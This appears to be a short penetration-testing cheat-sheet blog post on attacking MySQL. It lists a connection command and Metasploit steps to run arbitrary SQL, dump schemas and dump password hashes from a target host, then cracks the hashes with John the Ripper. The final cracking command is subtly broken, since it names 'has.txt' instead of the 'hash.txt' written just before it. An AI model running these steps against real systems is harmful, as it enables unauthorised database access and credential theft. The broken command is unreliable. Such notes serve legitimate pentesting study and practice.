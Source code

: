 ```yaml
---
layout: post
title: "mysql"
keywords: "mysql, sql, database, db"
---
```


MySQL is a relational database management system (RDBMS) based on Structured Query Language (SQL). 

### Enumeration
```
3306/tcp open mysql MySQL 5.7.29-0ubuntu0.18.04.1
```

### Establishing a connection
```
mysql -h $IP -u <USERNAME> -p
```

### MSF mysql_sql
```
msfconsole
> use auxiliary/admin/mysql/mysql_sql
> options
> set RHOSTS $IP
> set USERNAME <USERNAME>
> set PASSWORD <PASSWORD>
> set SQL <SQL COMMAND>
> run
```

### MSF mysql_schemadump
```
msfconsole
> use auxiliary/scanner/mysql/mysql_schemadump
> options
> set RHOSTS $IP
> set USERNAME <USERNAME>
> set PASSWORD <PASSWORD>
> run
```

### MSF mysql_hashdump
```
msfconsole
> use auxiliary/scanner/mysql/mysql_hashdump
> options
> set RHOSTS $IP
> set USERNAME <USERNAME>
> set PASSWORD <PASSWORD>
> run

echo <HASH> > hash.txt
john has.txt
```